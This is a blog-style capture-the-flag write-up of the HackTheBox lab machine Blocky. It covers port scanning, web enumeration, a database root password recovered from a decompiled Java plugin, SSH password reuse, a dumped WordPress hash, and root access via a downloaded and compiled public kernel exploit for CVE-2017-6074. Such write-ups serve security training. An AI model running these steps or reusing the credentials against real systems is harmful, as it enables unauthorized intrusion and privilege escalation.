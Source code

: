 ```yaml
---
layout: post
title: "HackTheBox - Blocky - CTF Notes"
tagline: "Owning Blocky on HackTheBox"
description: "The following writeup shows the process I used to capture the user and root flags on Blocky 10.10.10.37 @ HackTheBox.eu"
date:   2017-12-13
comments: true
image:
  feature: blog/2/feature.jpg
  hero: blog/2/header.jpg
  credit: Someone at Microsoft
  creditlink: https://minecraft.net/
tags: [ctf, notes]
---
```


## Introduction
The following writeup shows the process I used to capture the user and root flags on Blocky 10.10.10.37 @ [HackTheBox.eu](https://hackthebox.eu)

This post essentially contains the field notes I took as I was working my way through the box. With that in mind, I don't really go into detail about the commands I use and this isn't really a proper writeup. I might come back and touch it up later or I might just leave this as is. ¯\\\_(ツ)_/¯

## Port Scanning
First off let's check what ports are open.

```shell_session
nmap 10.10.10.37
Starting Nmap 7.60 ( https://nmap.org )
Nmap scan report for 10.10.10.37
Host is up (0.18s latency).
Not shown: 996 filtered ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
8192/tcp closed sophos
Nmap done: 1 IP address (1 host up) scanned in 18.88 seconds
```
Cool, we've got ftp (21), ssh (22) and http (80)

## Identification
Let's take a quick look at the headers on the web server

```shell_session
curl -I 10.10.10.37
```

```http
HTTP/1.1 200 OK
Server: Apache/2.4.18 (Ubuntu)
Link: <http://10.10.10.37/index.php/wp-json/>; rel="https://api.w.org/"
Content-Type: text/html; charset=UTF-8
```
It’s wordpress!

View-source:http://10.10.10.37 reveals we are working with Wordpress version 4.8.0 and there are no obvious plugins. Might come back with WPScan later.

/authors shows one user, “Notch”

Version 4.8.0 is affected by [a handful of vulnerabilities](https://wpvulndb.com/wordpresses/48) which we will come back too if needed.

## Enumeration
Let's do some directory enumeration...

```shell_session
uniscan -q -u http://10.10.10.37/
```

```
####################################
# Uniscan project #
# http://uniscan.sourceforge.net/ #
####################################
V. 6.3
======================================================================
=============================
| Domain: http://10.10.10.37/
| Server: Apache/2.4.18 (Ubuntu)
| IP: 10.10.10.37
======================================================================
=============================
|
| Directory check:
| [+] CODE: 200 URL: http://10.10.10.37/phpmyadmin/
| [+] CODE: 200 URL: http://10.10.10.37/plugins/
| [+] CODE: 200 URL: http://10.10.10.37/wiki/
| [+] CODE: 200 URL: http://10.10.10.37/wp-admin/
======================================================================
=============================
======================================================================
=============================
HTML report saved in: report/10.10.10.37.html
```

## Further Identification
View-source:http://10.10.10.37/phpmyadmin reveals version string [4.5.4.1deb2ubuntu2](https://www.phpmyadmin.net/files/4.5.4.1/) which was released on 2016-01-29.

[CVE-2016-5734](https://www.exploit-db.com/exploits/40185/) Affects this version.

Gonna keep digging…

http://10.10.10.37/wiki
(development page, will enumerate later)

http://10.10.10.37/plugins/
Cute File Browser

http://10.10.10.37/plugins/files/
Two java files found

http://10.10.10.37/plugins/files/BlockyCore.jar

http://10.10.10.37/plugins/files/griefprevention-1.11.2-3.1.1.298.jar

```shell_session
jar -xf BlockyCore.jar
cd com/myfirstplugin/
Jad BlockyCore.class
```
Found:
```java
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

## Password Reuse

Check credentials on PHPMYAdmin.... We’re in!

Check password against other users seen in db

One user in wp_users

```sql
Notch $P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/ notch notch@blockcraftfake.com
```

Testing sql pass on wordpress user failed, no pw reuse there.

Modifying user_pass or creating new wp user gives back-end access to WP, from there we could upload a shell as www-data.
Could also have used CVE-2016-5734 on PHPMyAdmin to get a shell.

Testing password over ssh

```shell_session
ssh root@10.10.10.37
```

Failed no pw reuse

```shell_session
ssh notch@10.10.10.37
```

total success

```shell_session
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
7 packages can be updated.
7 updates are security updates.
Last login: Sun Oct 29 11:09:42 2017 from 10.10.14.13
```

## Privilege Escalation
At this point we have the user flag, now let's get that root flag.

```shell_session
notch@Blocky:~$ uname -r
4.4.0-62-generic
```


Kernel 4.4.0-62-generic is impacted by [CVE-2017-6074](https://www.cvedetails.com/cve/CVE-2017-6074/)

On local machine
```shell_session
wget https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-6074/poc.c
```

```shell_session
gcc poc.c -o pwn
```

Transfer file over to target

`./pwn` as `notch` or `www-data` will cause root

Edit: Upon reading [another writeup](https://gist.github.com/berzerk0/1a6270d3cacf30c3b5cff82c7f53bf4c) I realized I overlooked something. It seems exploiting CVE-2017-6074 was unnecessary as the user `notch` was actually an admin. Exploiting the above CVE would still have been useful if we had gotten a shell as `www-data` or another under privileged user.

## Summary

Blocky was a relatively easy system to pwn. Leaving credentials in the java file was a cool touch and is actually something I see often in my work engagements. This box featured a combination of plain-text credential storage, password reuse, and old software.

If you found this helpful, feel free to [give me a +1](https://www.hackthebox.eu/home/users/profile/14010) on HackTheBox.
